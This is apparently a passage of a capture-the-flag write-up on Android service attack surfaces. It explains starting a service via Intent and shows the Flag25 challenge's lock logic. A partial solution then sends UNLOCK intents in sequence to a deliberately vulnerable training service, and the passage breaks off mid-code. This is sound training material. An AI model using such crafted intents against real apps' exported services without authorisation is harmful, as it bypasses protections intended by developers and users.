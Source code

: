 Starting a Service is very similar to starting an Activity. First an Intent is prepared and then sent using `startService()`:

```java
Intent intent = new Intent("io.example.START");
intent.setClassName("io.hextree.example",
                    "io.hextree.example.services.MyService");
startService(intent);

```

You can practice starting services using the Services related challenges of the Intent Attack Surface app.

## **Service Implementation**

On the receiving side the main threat surface is exposed via the `onStartCommand()` method which gets passed in the Intent. Here it depends on what the developer implemented whether there are issues or not.

Try to reverse engineer the Flag25 `onStartCommand()` implementation to figure out how to reach the `success()` function.

```jsx
 if (intent != null) {
            if (intent.getAction().equals("io.hextree.services.UNLOCK1")) {
                this.lock1 = true;
            }
            if (intent.getAction().equals("io.hextree.services.UNLOCK2")) {
                if (this.lock1) {
                    this.lock2 = true;
                } else {
                    resetLocks();
                }
            }
            if (intent.getAction().equals("io.hextree.services.UNLOCK3")) {
                if (this.lock2) {
                    this.lock3 = true;
                } else {
                    resetLocks();
                }
            }
            if (this.lock1 && this.lock2 && this.lock3) {
                success();
                resetLocks();
            }
        }
```

Solve by Handler: 

```jsx
       Handler handler = new Handler();
        Intent intent1 = new Intent();
        intent1.setClassName("io.hextree.attacksurface",
                "io.hextree.attacksurface.services.Flag25Service");
        intent1.setAction("io.hextree.services.UNLOCK1");
        startService(intent1);

        handler.postDelayed(() -> {
            Intent intent2 = new Intent();
            intent2.setClassName("io.hextree.attacksurface",
                    "io.hextree.attacksurface.services.Flag25Service");
            intent2.setAction("io.hextree.services.UNLOCK2");
            startService(intent2);
        }, 2000);
        handler.postDelayed(() -> {
```